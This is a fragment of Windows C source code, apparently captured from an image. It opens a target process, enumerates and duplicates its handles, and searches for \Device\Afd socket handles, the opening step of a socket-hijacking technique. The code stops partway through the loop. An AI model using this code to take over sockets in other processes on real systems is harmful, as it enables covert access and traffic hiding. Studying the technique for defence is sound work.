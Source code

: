 ```c
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	DWORD handleInfoSize = 0x10000;
	NTSTATUS status;
	DWORD returnLength;
	WSAPROTOCOL_INFOW wsaProtocolInfo = { 0 };
	SOCKET targetSocket;

	// Open target process with PROCESS_DUP_HANDLE rights
	hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
	if (!hProc) {
		printf("[!] Error: could not open the process!\n");
		exit(-1);
	}
	printf("[+] Handle to process obtained!\n");

	// Find the functions
	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

	// Retrieve handles from the target process
	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);

	printf("[+] Found [%d] handlers in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

	// Iterate 
	for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

		// Check if it is the desired type of handle
		if (handleInfo->Handles[i].ObjectTypeNumber == 0x24) {

			SYSTEM_HANDLE handle = handleInfo->Handles[i];
			HANDLE dupHandle = NULL;
			POBJECT_NAME_INFORMATION objectNameInfo;

			// Dupplicate handle
			NtDuplicateObject(hProc, (HANDLE)handle.Handle, GetCurrentProcess(), &dupHandle, PROCESS_ALL_ACCESS, FALSE, DUPLICATE_SAME_ACCESS);
			objectNameInfo = (POBJECT_NAME_INFORMATION)malloc(0x1000);

			// Get handle info
			NtQueryObject(dupHandle, ObjectNameInformation, objectNameInfo, 0x1000, &returnLength);

			// Narrow the search checking if the name length is correct (len(\Device\Afd) == 11 * 2)
			if (objectNameInfo->Name.Length == 22) {
				printf("[-] Testing %d of %d\n", i, handleInfo->HandleCount);

				// Check if it ends in "Afd"
				LPWSTR needle = (LPWSTR)malloc(8);
				memcpy(needle, objectNameInfo->Name.Buffer + 8, 6);
				if (needle[0] == 'A' && needle[1] == 'f' && needle[2] == 'd') {

					// We got a candidate
					printf("\t[*] \\Device\\Afd found at %d!\n", i);

```